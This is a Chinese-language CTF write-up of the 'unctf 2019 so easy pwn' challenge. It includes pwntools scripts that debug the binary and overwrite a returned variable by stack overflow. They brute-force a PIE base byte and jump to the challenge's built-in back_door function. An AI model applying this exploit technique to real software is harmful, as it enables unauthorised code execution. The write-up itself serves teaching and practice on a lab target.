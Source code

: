 ```yaml
---
layout:     post
title:      "unctf 2019 so easy pwn"
#subtitle:   " \"Hello World, Hello my first Blog\""
date:       2019-11-26 21:00:00
author:     "Red"
#header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - pwn
    - ctf
---
```


这个题经过 [@x](ma2in9.top) 的注释之后是这样的：
![](main.png)

### 寻找漏洞点
思路是在两个read函数处下断点，这种写的操作最容易有漏洞，看到read了16个字节，所以拿16个A测试，关闭地址随机化之后，调试，用vmmap看加载的基地址，得到read的真实地址，初步代码如下：
```python
from pwn import *

context.log_level='DEBUG'
context.terminal=['tmux','split','-h']
sh = process('./pwn')

gdb.attach(sh,'''
	b* 0x5655595a #read1
	b* 0x56555a06 #read2
''')

sh.send("A" * 16)
sh.interactive()
```
调试之后发现welcome中的s地址为``0xffffd16c``, call函数中的v1的地址为``0xffffd178``,buf地址为``0xffffd17c``,也就是说s和v1地址只差了12，我们输入16个字节后刚好可以覆盖v1的地址，这就是漏洞所在：
![](vul.png)

### 利用
查看call函数中函数恰巧return了v1，而v1又能被我们覆盖，所以利用方法不言而喻，用12个padding加上一个返回地址即可，查看程序中有back_door可以利用，但是程序开启了PIE。再看welcome函数中泄露了基地址的前16位，也就是前4个字节，back_door中
泄露了后三字节，也就是说需要我们爆破中间的一个字节：
```python
from pwn import *
context.log_level='DEBUG'	
context.terminal=['tmux','split','-h']
try:
	for i in range(0x1000, 0x10000, 0x1000):
		print hex(i)
		sh = process('./pwn')
		  
		back_door = 0x000009cd
		offset = 12 

		#gdb.attach(sh,'''
		#	b* 0x5655595a
		#	b* 0x56555a06
		#''')
		sh.recvuntil("the ")
		ads = (int(sh.recvuntil(" ", drop = True)[-6:]) << 16) +i
		print ads
		sh.recvuntil("name?")
		payload = "a"*offset +p32(back_door +ads)
		sh.send(payload)
		sh.recvuntil(":")
		sh.send("anything")
		sh.interactive()
except Exception as e:
	pass
```

这个题中有个好玩的地方就是第二次read，不管输入什么都会报错，调试得知原来read函数根本没read成功,read返回值(rax)为-1:
![](read.png)
